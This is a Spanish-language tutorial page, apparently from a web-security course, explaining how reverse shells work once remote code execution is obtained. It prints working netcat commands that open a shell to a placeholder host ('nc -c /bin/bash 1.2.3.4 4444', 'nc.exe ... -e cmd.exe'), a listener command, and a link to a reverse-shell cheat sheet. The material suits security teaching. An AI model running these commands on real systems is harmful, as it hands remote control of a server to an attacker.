 ```yaml
---
title : "Reverse Shell"
description: "TODO"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 060
---
```


## Descripción General

En el capítulo anterior vimos cómo ejecutar comandos de manera remota en un servidor, sin tener acceso a una
terminal. Esto es muy útil en un comienzo, pero rápidamente se vuelve evidente la lentitud, torpeza y limitaciones
que significa este medio. Sería mucho más cómodo si de alguna forma se pudiese obtener acceso a una terminal,
o _shell_, con la cual ejecutar comandos de manera más directa, y sin tener que pasar por todo el proceso
remoto.

Afortunadamente existen las shell reversas: a diferencia de una shell normal, en la cual el cliente se conecta
a un servidor escuchando por conexiones, una shell reversa implica que el cliente está a la espera de una
conexión, y es el servidor quien la inicia. Asumiendo que ya tienen RCE, es posible iniciar una reverse shell con
un par de comandos, aunque puede ser necesario evadir algún filtro, firewall o antivirus.

Los pasos para levantar una reverse shell son los siguientes:
1. El atacante espera por conexiones TCP en algún puerto específico (por ejemplo 4444).

2. El servidor inicia una conexión TCP con el atacante en el puerto especificado.

3. Una vez establecida la conexión, el servidor levanta una shell
   (como `sh` o `bash` en Linux, y `cmd.exe` o `powershell.exe` en Windows).

4. Todos los mensajes del atacante son redirigidos a la entrada estándar de la shell, y la salida estándar de
esta es redirigida por la conexión hacia el atacante.

## Herramientas

En términos generales, cualquier programa que permita escuchar e iniciar comunicaciones TCP, y luego redirigir
las entradas y salidas estándar, debería funcionar. Los más comunes son:
* Linux: `nc`, `ncat`, `netcat`, `socat`
* Windows: `nc.exe`

También se puede iniciar reverse shells con casi todos los lenguajes de programación.
[Aquí](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
pueden encontrar documentación sobre muchas técnicas distintas de iniciar reverse shells.

## Ejemplo

### Cliente

Para empezar a escuchar en el puerto `4444` por conexiones TCP, puede usar `nc` de la siguiente forma:

    nc -lvp 4444

También pueden usar [pwncat](https://github.com/calebstewart/pwncat), que está hecho para reverse shells,
y tiene más características, como autocompletado con TAB.

    pwncat --listen --port 4444

### Servidor

En el servidor usualmente no se tiene control de los programas instalados, por lo que se tendrán que adaptar
a lo que encuentren ahí. De todas formas, casi siempre está instalado `nc` o `nc.exe`. Para iniciar la conexión
a la IP `1.2.3.4` y puerto `4444`, levantar la shell y redirigir la entrada y salida estándar, se ejecuta lo siguiente:

    nc -c /bin/bash 1.2.3.4 4444
    nc.exe 1.2.3.4 4444 -e cmd.exe

### Prueba de Concepto

Ejecutamos lo descrito anteriormente, con una misma máquina funcionando como cliente y servidor. En el lado
del servidor no se ve nada muy interesante:

![Reverse Shell Server](../reverse-shell-server.png)

Pero el cliente ahora tiene una shell nueva:

![Reverse Shell Client](../reverse-shell-client.png)

